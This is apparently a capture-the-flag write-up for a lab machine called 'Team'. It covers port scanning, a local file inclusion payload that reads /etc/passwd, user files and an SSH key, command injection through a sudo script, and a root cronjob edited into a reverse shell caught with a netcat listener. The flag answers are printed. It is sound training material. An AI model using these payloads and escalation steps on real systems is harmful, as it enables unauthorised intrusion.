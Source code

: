 # Team

* IP = 10.10.233.233

## Questions/Tasks:

* Starting with basic Nmap scan to find all open ports on the server:<br>
`nmap -sC -sV -v $IP`

* Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add \'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

* Since port 80 is open, search for any other directories with gobuster:<br>
`gobuster -u "http://IP/" -w common.txt`

* GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
* FTP is open with no anonymous login permit😮‍💨.
* The webpage when opened in browser shows the *Apache Default page*:<br>
![Screenshot](./assets/2.png)
* Checking the source of the page, we find this line:<br>
![Screenshot](./assets/1.png)
* Edit the `/etc/hosts` file in your machine and add the line:<br>
```
10.10.233.233 team.thm
```
* Now visiting http://team.thm, we're brought to this page:<br>
![Screenshot](./assets/3.png)
* Start a second gobuster scan on http://team.thm :
* Second Scan results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/scripts (Status: 301)
/server-status (Status: 403)
```
* Inside *robots.txt* there's only one word: `dale`, maybe its an username.🤔🤔
* I was completely stuck at this stage, but seeing the hint I figured we need to add `dev.team.thm` to the same line in `/etc/hosts`: `10.10.233.233   dev.team.thm team.thm`
* Opening http://dev.team.thm in browser, we are brought here:<br>
![Screenshot](./assets/4.png)
* Following the hint, I supposed that it might be a Local file inclusion vulnerability, hence tried this payload:<br>
`http://dev.team.thm/script.php?page=./../../../etc/passwd`, since the main webpage remains in `/var/www/html/`, hence we need to traverse 3 times to get into root of filesystem.
![Screenshot](./assets/5.png)
* Thus we can confirm that the page has indeed LFI.
* Similarly we tried this out: `http://dev.team.thm/script.php?page=./../../../home/dale/user.txt`.
* And just like that we got the user flag!!🤗


1. user.txt

**Ans-THM{6Y0TXHz7c2d}**


* Now we need to find a way to get a shell in order to become root!!🫡
* Burp Suite made the job easy and found the list for us:<br>
![Screenshot](./assets/burp.png)
* Hence we visited: `http://dev.team.thm/script.php?page=./../../../etc/ssh/sshd_config` and got a ssh private key for `Dale`:<br>
![Screenshot](./assets/6.png)
* Copy the RSA Private Key to local machine, change permissions with `chmod 600 id_rsa`, then ssh into server with:
`ssh -i id_rsa dale@IP`<br>
![Screenshot](./assets/7.png)
* `sudo -l` gives the following output:<br>
![Screenshot](./assets/8.png)
* So, probably we need to escalate privileges to `Gyles` then to root.
* Carefully look at the script, the error variable is directly executed in the script itself...so we can supply `/bin/bash` and become *gyles*
* Now run the script with `sudo` and supply `/bin/bash` when prompted for date:<br>
![Screenshot](./assets/9.png)
* Thus we can get a barebone shell, and we can elevate the shell with:`python3 -c 'import pty; pty.spawn("/bin/bash")'`
* The `.bash_history` of gyles has a strange file in /usr/local/bin:<br>
![Screenshot](./assets/10.png)
* The `admin` group in which gyles is a member has write, read and execute permissions:<br>
![Screenshot](./assets/11.png)<br>
* Edit the file like this:<br>
![Screenshot](./assets/12.png)
* In order to get a reverse shell with root privileges. (The above code snippet was taken from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey RevShell Cheat Sheet</a>)
* Set up a netcat listener on local machine with: `nc -lnvp 4444`
* The file will be automatically run by root as it is a *cronjob*.
* Thus we get a root shell connection back:<br>
![Screenshot](./assets/13.png)
* Find the root.txt there itself...

2. root.txt

**Ans-THM{fhqbznavfonq}**
